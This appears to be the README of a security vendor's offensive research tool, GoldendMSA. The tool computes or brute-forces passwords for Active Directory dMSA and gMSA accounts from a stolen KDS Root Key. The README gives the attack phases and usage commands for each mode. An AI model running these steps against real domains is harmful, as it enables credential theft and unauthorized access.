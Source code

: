 # Golden dMSA

This tool exploits a new attack against delegated Managed Service Accounts called the "Golden DMSA" attack. The technique allows attackers to generate passwords for all associated dMSAs offline. 

Additional information is avaiable in this post [title](https://url).


## Attack steps
Phase 1: Key Material Extraction  (pre requirement of the attack) 

* Dump the KDS Root Key from the DC

Phase 2: Enumerate dMSA accounts  

* Brute-force or use LDAP to discover data on dMSA accounts in the forest - SamAccountName and SID. 

Phase 3: ManagedPasswordID guessing  

* Create a wordlist of possible values and identify the correct managedPasswordId and password hashes through targeted guessing. 

Phase 4: Password Generation  

* Generate valid passwords for any gMSA and dMSA associated with the compromised key.  

## Build

* Compile the tool with platform target of x64. 
* Tool was tested against target Framework of .NET Framework 4.7.2.
* When copying the tool's executable to the remote machine, please make sure to also copy the CommandLine.dll that is located in GoldendMSA/bin/Release or GoldendMSA/bin/Debug.

## Usage

Couple examples of useful commands:

Computation of gMSA's passwords based on KDS Root key and ManadgedPasswordID:
```
$ GoldendMSA.exe compute  -s <sid> -k <KDS Root key> -d <domain name> -m <ManadgedPasswordID> 
```

Converts a base64 password of dMSA/ gMSA to NTLM, AES128, AES256:
```
$ GoldendMSA.exe convert -d <domain name> -u <username end with $> -p <base64 password>
```

Create a wordlist for dMSA's password bruteforcing:
```
$ GoldendMSA.exe wordlist -s <dMSA's sid> -d <dMSA's domain> -f <forest's domain> -k <id of kds root key>
```
![image](Assets/Wordlist.jpg)


Gathers info on dMSAs/gMSAs based on ldap or RID enumeration:
```
$ GoldendMSA.exe info -d <domain name> -m ldap
$ GoldendMSA.exe info -d <domain name> -m brute -u <username> -p <password> -o <user's domain name> -s <gMSA's sid>
$ GoldendMSA.exe info -d <domain name> -m brute -u <username> -p <password> -o <user's domain name> -r <number>
```
![image](Assets/Info.jpg)


Gathers info on KDS root keys (requires Enterprise admins permissions):
```
$ GoldendMSA.exe kds
$ GoldendMSA.exe kds -g <guid of KDS root key>
```
![image](Assets/Kds.jpg)


Gathers info on KDS root keys (requires SYSTEM permissions on a DC):
```
$ GoldendMSA.exe kds --domain <domain name>
```

Bruteforce dMSA's password:
```
$ GoldendMSA.exe bruteforce -s <sid of dmsa> -k <kds root key> -d <dmsa's domain> -u <dmsa (should end with $)> -t
$ GoldendMSA.exe bruteforce -s <sid of dmsa> -k <kds root key> -d <dmsa's domain> -u <dmsa (should end with $)> -v
```
![image](Assets/Bruteforce.jpg)

## License

Disclaimer: This project is licensed under the terms of the BSD 3-Clause license, and is provided for educational and informational purposes only. It is intended to promote awareness and responsible remediation of security vulnerabilities that may exist on systems you own or are authorized to test. Unauthorized use of this information for malicious purposes, exploitation, or unlawful access is strictly prohibited. Semperis does not endorse or condone any illegal activity and disclaims any liability arising from misuse of the material. Additionally, Semperis does not guarantee the accuracy or completeness of the content and assumes no liability for any damages resulting from its use.

## Reference

- https://github.com/Semperis/GoldenGMSA